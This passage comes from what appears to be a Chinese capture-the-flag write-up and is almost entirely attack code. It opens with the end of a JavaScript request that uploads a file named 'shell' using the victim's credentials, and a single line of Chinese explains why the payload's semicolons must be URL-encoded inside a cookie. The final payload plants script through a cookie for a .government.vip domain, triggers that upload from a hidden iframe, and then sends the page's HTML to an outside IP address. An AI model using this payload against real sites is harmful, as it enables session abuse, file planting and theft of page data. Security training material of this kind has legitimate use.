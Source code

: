 ```
          "shell\r\n" + 
          "-----------------------------12264101169922\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "\xcc\xe1\xbd\xbb\xb2\xe9\xd1\xaf\r\n" + 
          "-----------------------------12264101169922--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
        alert(xhr.response)
      }

submitRequest()
</script>
```

由于代码里有太多的分号，而cookie中分号是区别字段的，这里必须要urlencode，而且还需要专门多一句写入页面，最终payload如下

```
<script>
document.cookie="username=aa</iframe><script>var iframe = document.createElement('iframe')<\/script><script>iframe.id = 'ddog'<\/script><script>iframe.name = 'iframe1'<\/script><script>iframe.src='upload'<\/script><script>document.body.appendChild(iframe)<\/script><script>var content=\"<script>document.write(decodeURIComponent('%3Cscript%3E%0Afunction%20submitRequest%28%29%0A%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%20%20%20%20xhr.open%28%22POST%22%2C%20%22upload%22%2C%20false%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept%22%2C%20%22text%2fhtml%2Capplication%2fxhtml%2bxml%2Capplication%2fxml%3Bq%3D0.9%2C%2a%2f%2a%3Bq%3D0.8%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22zh-CN%2Czh%3Bq%3D0.8%2Cen-US%3Bq%3D0.5%2Cen%3Bq%3D0.3%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Content-Type%22%2C%20%22multipart%2fform-data%3B%20boundary%3D---------------------------12264101169922%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.withCredentials%20%3D%20true%3B%0A%20%20%20%20%20%20%20%20var%20body%20%3D%20%22-----------------------------12264101169922%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22Content-Disposition%3A%20form-data%3B%20name%3D%5C%22file%5C%22%3B%20filename%3D%5C%22shell%5C%22%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22Content-Type%3A%20text%2fplain%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22shell%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22-----------------------------12264101169922%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22Content-Disposition%3A%20form-data%3B%20name%3D%5C%22submit%5C%22%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22%5Cxcc%5Cxe1%5Cxbd%5Cxbb%5Cxb2%5Cxe9%5Cxd1%5Cxaf%5Cr%5Cn%22%20%2b%20%0A%20%20%20%20%20%20%20%20%20%20%22-----------------------------12264101169922--%5Cr%5Cn%22%3B%0A%20%20%20%20%20%20%20%20var%20aBody%20%3D%20new%20Uint8Array%28body.length%29%3B%0A%20%20%20%20%20%20%20%20for%20%28var%20i%20%3D%200%3B%20i%20%3C%20aBody.length%3B%20i%2b%2b%29%0A%20%20%20%20%20%20%20%20%20%20aBody%5Bi%5D%20%3D%20body.charCodeAt%28i%29%3B%20%0A%20%20%20%20%20%20%20%20xhr.send%28new%20Blob%28%5BaBody%5D%29%29%3B%0A%20%20%20%20%20%20%20%20document.write%28encodeURIComponent%28xhr.response%29%29%0A%20%20%20%20%20%20%7D%0A%0AsubmitRequest%28%29%0A%3C%2fscript%3E'))<\\/script>\"<\/script><script>setTimeout(\"iframe.contentWindow.document.write(content)\", 3000)<\/script><script>document.body.appendChild(iframe)<\/script><script>window.onload = setTimeout(\"window.location.href='http://115.28.78.16?id='+encodeURIComponent(document.getElementById('ddog').contentWindow.document.documentElement.outerHTML)\",3000)<\/script>;domain=.government.vip; path=/;"

window.location.href="http://admin.government.vip:8000";
</script>
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i6r7eapfqxz18e7frsexxp6d/image_1bbm7t6mv1lckjf7m4o10tq1s81g.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9cbjbavbdg59k7lbzdt882ct/image_1bbm7tqmjkb011vho2e19mg1j7mt.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fcsi2y6azh4w2cn1hi7vsaox/image_1bbm7umpc158d118d1elc3i71j6g1a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7iglrk439xnneps9zyt0bje8/image_1bbm81fi31ic413d1vkjuad4q1n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d7oo6ll6tzhoxhpi9s0ya4ge/image_1bbm867761jslt3s60i1punqj324.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0fo4y89aul236z6zeq20vzl1/image_1bbnj20hv1tirtiq1ec7vrc2k22h.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hr86wmm3mehab6nubr7q2219/image_1bbnj670k1kjd1fih1khj1oegq6n2u.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ugwkm2dhr9wyfcpa0ohocu31/image_1bbnj81aj1i95ua2ea91c3s5rq3b.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wscz7k86wuyba78gi9ev4yc6/image_1bbnjg0gu18an1nn2dhm7bd1b4h3o.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/571vkxvwy40jemssd8kccqry/image_1bbnm3785lrg1k0pe0iu4b8ij45.png